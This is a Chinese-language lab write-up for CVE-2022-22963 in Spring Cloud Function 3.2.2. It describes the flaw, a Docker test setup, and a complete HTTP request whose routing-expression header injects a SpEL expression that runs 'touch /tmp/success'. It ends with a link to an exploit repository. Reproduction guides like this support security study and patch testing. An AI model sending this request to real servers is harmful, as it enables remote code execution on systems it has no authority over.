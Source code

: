 # Spring Cloud Function SpEL 表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub 执行如下命令启动一个使用 Spring Cloud Function 3.2.2 编写的服务器：

```
docker-compose up -d
```

服务启动后，执行 `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` 即可执行 `uppercase` 函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression` 头中包含的 SpEL 表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

![image-20220412163215931](images/image-20220412163215931.png)

`touch /tmp/success` 已经成功被执行：

![](images/image-20220412163527748.png)

## 漏洞 POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/EXP-POC/tree/main/Spring-cloud-function-SpEL-RCE
